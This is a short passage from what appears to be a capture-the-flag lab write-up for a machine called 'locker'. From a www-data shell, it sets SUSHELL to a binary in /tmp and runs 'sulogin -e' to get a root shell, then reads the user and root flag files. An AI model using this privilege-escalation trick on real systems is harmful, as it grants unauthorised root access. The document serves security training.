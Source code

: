 ```shell
(remote) www-data@locker:/tmp$ export SUSHELL=/tmp/a.out
(remote) www-data@locker:/tmp$ echo $SUSHELL
/tmp/a.out
(remote) www-data@locker:/tmp$ sulogin -e
Press Enter for maintenance
(or press Control-D to continue): 
root@locker:~# whoami
root
```

## user pwned

```shell
root@locker:/home/tolocker# cat user.txt 
flaglockeryes
```

## root pwned

```shell
root@locker:~# cat root.txt 
igotroothere
```
